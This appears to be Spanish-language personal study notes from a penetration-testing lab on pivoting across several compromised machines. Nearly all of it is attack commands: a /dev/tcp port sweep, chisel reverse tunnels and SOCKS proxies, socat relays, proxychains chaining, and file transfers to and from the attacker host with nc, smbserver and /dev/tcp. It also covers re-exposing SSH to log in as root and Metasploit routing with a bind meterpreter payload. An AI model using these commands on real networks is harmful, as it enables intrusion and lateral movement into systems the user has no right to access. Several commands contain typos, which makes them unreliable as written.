 
----

## Manual
----
>Jugaremos con 5 machines

- Red 

>Empezamos

- Arp-scan debería salir sólo 1 
- Importante escanear si es linux o windows o lo que corresponda

>Enumeramos puertos desde una máquina vulnerada

```bash
#!/bin/bash

for i in $(seq 1 254); do
	for port in 21 22 80 443 445 8080; do
		timeout 1 bash -c "echo '' > /dev/tcp/10.10.0.$i/$port" &>/dev/null && echo "[+] Host 10.10.0.$i - PORT $port - OPEN| &

	done
done; wait
```

- Una vez ganado aceso, compartir chisel a maquina victima
```bash
scp chisel user@ip:/tmp/chisel
```

- Cuidado de **que no coincidan los puertos** del túnel con **otros servicios o reverse shells corriendo**

1. Llegar a una IP

> Atacante
```bash
chisel server --reverse -p 1234
``` 

> Victim, quiero que el puerto **80 de la víctima** sea **mi puerto 80**
```bash
chisel client IPAtaque:1234 R:80:IpVictim:80
```

2. Llegar a todo el segmento de red

> Atacante
```bash
chisel server --reverse -p 1234
``` 
- Configuramos **/etc/proxychains4.conf**
```bash
nano /etc/proxychains4.conf
socks5 127.0.0.1 1080
#Chisel abre el puerto por defecto 1080
```
- Ahora pasamos con nmap por el túnel
```bash
proxycahins4 nmap -sT -Pn -n IP 2>/dev/null # probas con -sS 
```
- Con **gobuster**
```bash
gobuster -w wordlist http://IP --proxy socks5://127.0.0.1:1080
```

> Victim
1. Si quiero ver todo el segmento de red de la **2 vícitima**
```bash
chisel client IPAtaque:1234 R:socks #Si no funciona socks5
```
2. Si quiero el puerto 443 de la victima por udp
```bash
chisel client IPAtaque:1234 R:443:IpVictim:443/udp
```



>Ahora si queremos hacer una petición desde la víctima

Nos descargamos **chisel** y se lo pasamos a la victima
- Victim
>Básicamente decimos, eh tú, todo lo que venga por el 4343, redirígelo a esa **IP:Port**
```bash
./socat TCP-LISTEN:4343,fork TCP:IPATACANTE:80
```
- Desde la víctima, podemos ver el **archivo.txt** qu etenemos en la maquina atacante
```bash
curl http://ipPrimeraVictima:4343/archivo.txt
```

- transferir archivos de una máquina a otra
```bash
./socat TCP-LISTEN:4343,fork TCP:IPATACANTE:1234
cat < archivazo > /dev/tco/IPAtacante/4343
nc -nvlp 1234 > archivazo
```


- Cuándo queremos llegar a una 3 máquina

1. Le pasamos **chisel.exe** a la máquina windows, que es la 3º
```bash
smbserver.py smbFolder /home/usuario -smb2support
```
2. Desde la windows, ya que tenemos varios túneles
```bat
copy \\IP\smbFolder\chisel.exe chisel.exe
```
3. Ya **teníamos 1 server de chisel** corriendo y **2 clients**
```bash
# Atacante
chisel server --reverse -p 1234

# 1 máquina, mi puerto 80 será el puerto de esta máquina
chisel client IPAtaque:1234 R:80:IPMaquinaacomprometer2:80
# 1.1 Para hacer lo mismo pero para todo el segmento y puertos
chisel client IPAtaque:1234 R:socks

# 2 máquina, primer puerto inventado para hacer la conexión hacia allí
chisel client IPMAquinaComrometida1:5555 R:socks R:443:IPMAquinaaComprometer3:443/udp
# 2 máquina para hacer la conexión Inversa
chisel client IPMAquinaComprometida1:6666 R:socks R:8888:socks
# 1 máquina por la conexión inversa
./socat TCP-LISTEN:6666,fork TCP:IPATACANTE:1234

# 3 máquna Windows
# 3 máquina para hacer la conexión Inversa
chisel client IPMAquinaComprometida2:7776  R:9999:socks
# 2 máquina por la conexión inversa
./socat TCP-LISTEN:7776,fork TCP:IPMaquinaComprometida1:5454
# 1 máquina por la conexión inversa
./socat TCP-LISTEN:5454,fork TCP:IPatacante:1234
```

- En el archivo **/etc/proxychains4.conf** representar el último túnel  creado comentar strict_chain y ponerlo en **dynamic_chain**
```bash
nano /etc/proxychains4.conf

dynamic_chain

socks5 127.0.0.1 9999
socks5 127.0.0.1 8888
socks5 127.0.0.1 1080
```
>Copiar  Archivos **desde la máquina atacante** a **máquina comprometida** (Siempre se lo pasamos al nodo más cercano)

- Una vez se compromete la última máquina (Y tenemos los proxys montados con **chisel**) queremos pasarle un archivo 
1. **3º Máquina comprometida**
```cmd
C:\Windows\system32>copy \\IPAtacante\smbFolder\nc64.exe C:\Windows\Temp\nc.exe
```
2. **2º Máquina Comprometida**
```bash
./socat TCP-LISTEN:445,fork TCP:IPVictima1:445
```

3. **1º Máquina comprometida**
```bash
./socat TCP-LISTEN:445,fork TCP:IPAtacante:445
```
4. Atacante
```bash
smbserver.py smbFolder /ruta -smb2support
```

5. SI una de la máquinas por donde paso el archivo es windows
```bash
C:\Windows\system32>netsh interface portproxy add v4tov4 listenport=8787 listenaddress=0.0.0.0 connectport=8788 connectadress=NodoMásCercano
```

>Curiosidades

- En una de las máquinas me he descargado socat y **he abierto el puerto ssh** redirigiéndolo por el puerto 6666 sin necesidad de sudo para poder poner la passwd que ya teníamos de **root**
```bash
# Desde la Victim
wget https://github.com/andrew-d/static-binaries/raw/refs/heads/master/binaries/linux/x86_64/socat
# o 

cat < socat > /dev/tcp/IPAtacante/4343
nc -nvlp 1234 > socat

# O Atacante
python3 -m http.server
curl http://192.168.1.135:8000/chisel -o chisel

# Víctima 
./socat TCP-LISTEN:6666,reuseaddr,fork TCP:127.0.0.1:22

# Desde el Atacante
./socat TCP-LISTEN:4569,reuseaddr,fork TCP:IPVictim:6666
ssh root@ipVictim
```
## Metasploit

1. Si comprometemos, sólo podremos **escanear desde dentro de metasploit**
- Al comprometer runa máquina añadiremos Rutas
```bash
meterpreter> run autoroute -s DirRed/Mascara
# renombramos las sesiones para que nos queden claras las redes
sessions -n Red1-Victim1 -i 1
```
- Scanner **TCP**
```bash
use scanner/portscan/tcp
set rhosts IPVictim2
set PORTS 0-65535
exploit
```
- Para **forwarding** 
> **-l:** Especificamos el puerto de la máquina atacante
    **-p:** Especificamos el port de la vítcima
     **-r:** Especifico la áquina Víctima
 
```bash
meterpreter>portfwd add -l 1234 -p 80 -r IPVictim2
```

- Escaneamos por el puerto dónde reenviamos, a ver que info de cada port
```bash
db_nmap -sS -sV -p- 1234 localhost
```

 - Explotación
 >Abriremos bind_shell y la víctima abre el Puerto esperando conexiones

```bash
use elexploit que sea en ese puerto 80
set payload /windows/meterpreter/bind_tcp
set Rhosts IpVictima
set LPORT PuertoQueNocoincida